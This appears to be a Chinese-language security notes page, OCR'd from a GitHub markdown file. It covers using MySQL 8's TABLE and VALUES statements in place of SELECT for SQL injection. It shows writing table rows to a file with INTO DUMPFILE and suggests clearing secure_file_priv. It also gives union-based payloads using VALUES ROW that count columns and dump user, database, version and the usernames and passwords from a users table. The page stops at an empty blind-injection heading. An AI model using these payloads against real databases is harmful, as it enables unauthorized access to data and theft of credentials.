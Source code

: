 
table和select很像

```sql
TABLE t;
SELECT * FROM t;
```

结果一样

区别:

- TABLE始终显示表的所有列；
- TABLE不允许对行进行任意过滤，也就是说，TABLE不支持任何WHERE子句；

##### TABLE替换SELECT xx INTO OUTFILE的SELECT

> secure_file_priv参数用于限制`LOAD DATA`、`SELECT xx INTO OUTFILE`、`LOAD_FILE()`等：
>
> - NULL：表示限制mysqld不允许导入或导出；
> - /tmp：表示限制mysqld只能在/tmp目录中执行导入导出，其他目录不能执行；
> - 没有值：表示不限制mysqld在任意目录的导入导出；
>
> 在my.ini加入`secure_file_priv=''`重启MYSQL服务

##### TABLE替代DUMPFILE的SELECT

- OUTFILE导出全部数据，DUMPFILE只能导出一行数据；
- OUTFILE在将数据写到文件里时有特殊的格式转换，而DUMPFILE则保持原数据格式

```sql
table security.users limit 1 into dumpfile '/tmp/dump.txt'
```

##### 子查询替代

只有单列的时候适用,多列报错

#### VALUES

##### union联合查询

```mysql
原:select * from test.users union select 1,2,3;
新:select * from test.users union values row(1,2,3);

同样也可以判段列数
select * from test.users where id ='0' union values row(1,2);
select * from test.users where id ='0' union values row(1,2,3);
注入
select * from test.users where id ='0' union values row(1,database(),version());
concat
select * from test.users where id ='0' union values row(concat_ws(char(32,58,32),user(),database(),version()),database(),version());
子查询
select * from test.users where id ='0' union values row((select group_concat(concat_ws(char(32,58,32),id,username,password)) from users),database(),version());

```

#### 盲注
